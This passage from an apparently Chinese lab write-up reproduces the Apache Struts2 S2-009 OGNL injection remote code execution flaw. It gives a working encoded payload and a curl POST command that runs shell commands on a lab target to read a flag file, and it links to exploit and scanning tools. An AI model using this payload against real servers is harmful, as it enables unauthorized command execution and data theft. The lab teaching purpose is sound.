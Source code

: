 ## S2-009

漏洞类型：远程代码执行漏洞
影响版本：2.1.0 - 2.3.1.1
漏洞原理：

> Struts2 对 s2-003 的修复方法是禁止#号，于是 s2-005 通过使用编码\u0023 或\43 来绕过；于是 Struts2 对 s2-005 的修复方法是禁止\等特殊符号，使用户不能提交反斜线。

> 但是，如果当前 action 中接受了某个参数 example，这个参数将进入 OGNL 的上下文。所以，我们可以将 OGNL 表达式放在 example 参数中，然后使用/helloword.acton?example=<OGNL statement>&(example)('xxx')=1 的方法来执行它，从而绕过官方对#、\等特殊字符的防御。

`poc`如下：

```
age=12313&name=(%23context[%22xwork.MethodAccessor.denyMethodExecution%22]=+new+java.lang.Boolean(false),+%23_memberAccess[%22allowStaticMethodAccess%22]=true,+%23a=@java.lang.Runtime@getRuntime().exec("[命令]").getInputStream(),%23b=new+java.io.InputStreamReader(%23a),%23c=new+java.io.BufferedReader(%23b),%23d=new+char[51020],%23c.read(%23d),%23kxlzx=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),%23kxlzx.println(%23d),%23kxlzx.close())(meh)&z[(name)(%27meh%27)]
```

需要以`POST`方式提交

靶场复现：

![][24]

查找到存在漏洞的界面为第 5 个：`/ajax/example5.action`，用`HackBar`的`POST`方式执行`ls`：

![][25]

不能成功执行，那就换`burpsuite`：

![][26]

尝试也无果，最后使用`curl`命令行工具直接提交并保存结果到文件：

```
curl -X POST "http://xxx.xxx.xxx.xxx:yyyyy/ajax/example5.action" -d "age=12313&name=(%23context[%22xwork.MethodAccessor.denyMethodExecution%22]=+new+java.lang.Boolean(false),+%23_memberAccess[%22allowStaticMethodAccess%22]=true,+%23a=@java.lang.Runtime@getRuntime().exec(%27ls%27).getInputStream(),%23b=new+java.io.InputStreamReader(%23a),%23c=new+java.io.BufferedReader(%23b),%23d=new+char[51020],%23c.read(%23d),%23kxlzx=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),%23kxlzx.println(%23d),%23kxlzx.close())(meh)&z[(name)(%27meh%27)]" --output a.txt
```

![][27]

把`ls`命令修改为`cat key.txt`即可得到`flag`：

![][28]

## 总结


[1]: https://github.com/HatBoy/Struts2-Scan
[2]: https://img.soapffz.com/archives_img/2020/03/21/archives_20200321_135731.png
[3]: https://img.soapffz.com/archives_img/2020/03/21/archives_20200321_135254.png
[4]: https://github.com/Lucifer1993/struts-scan
[5]: https://img.soapffz.com/archives_img/2020/03/21/archives_20200321_142550.png
[6]: https://github.com/k8gege/K8tools/blob/master/K8_Struts2_EXP%20S2-045%20%26%20%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%2020170310.rar
[7]: https://img.soapffz.com/archives_img/2020/03/21/archives_20200321_151534.png
[8]: https://img.soapffz.com/archives_img/2020/03/21/archives_20200321_171648.png
[9]: http://sec.lz520520.cn:88/article/7.html
[10]: https://img.soapffz.com/archives_img/2020/03/21/archives_20200321_134126.png
[11]: https://img.soapffz.com/archives_img/2020/03/21/archives_20200321_134417.png
[12]: https://img.soapffz.com/archives_img/2020/03/21/archives_20200321_134606.png
[13]: https://img.soapffz.com/archives_img/2020/03/21/archives_20200321_134710.png
[14]: https://img.soapffz.com/archives_img/2020/03/21/archives_20200321_145451.png
[15]: https://img.soapffz.com/archives_img/2020/03/21/archives_20200321_144112.png
[16]: https://img.soapffz.com/archives_img/2020/03/21/archives_20200321_145248.png
[17]: https://img.soapffz.com/archives_img/2020/03/21/archives_20200321_151159.png
[18]: https://img.soapffz.com/archives_img/2020/03/21/archives_20200321_171511.png
[19]: https://img.soapffz.com/archives_img/2020/03/21/archives_20200321_172415.png
[20]: https://img.soapffz.com/archives_img/2020/03/21/archives_20200321_172605.png
[21]: https://img.soapffz.com/archives_img/2020/03/21/archives_20200321_172625.png
[22]: https://img.soapffz.com/archives_img/2020/03/21/archives_20200321_173038.png
[23]: https://img.soapffz.com/archives_img/2020/03/21/archives_20200329_102028.png
[24]: https://img.soapffz.com/archives_img/2020/03/21/archives_20200329_103249.png
[25]: https://img.soapffz.com/archives_img/2020/03/21/archives_20200329_104530.png
[26]: https://img.soapffz.com/archives_img/2020/03/21/archives_20200329_105449.png
[27]: https://img.soapffz.com/archives_img/2020/03/21/archives_20200329_105634.png
[28]: https://img.soapffz.com/archives_img/2020/03/21/archives_20200329_110202.png
[29]: https://github.com/vulhub/vulhub/tree/master/struts2
[30]: https://mp.weixin.qq.com/s/a06y_BANpGFcgS9hJAAtGw
[31]: https://mp.weixin.qq.com/s/99pPDZFA1fo-tC8U1WD7qA
[32]: https://mp.weixin.qq.com/s/6Hx1Ngb9UMtJlRMWb6s2fQ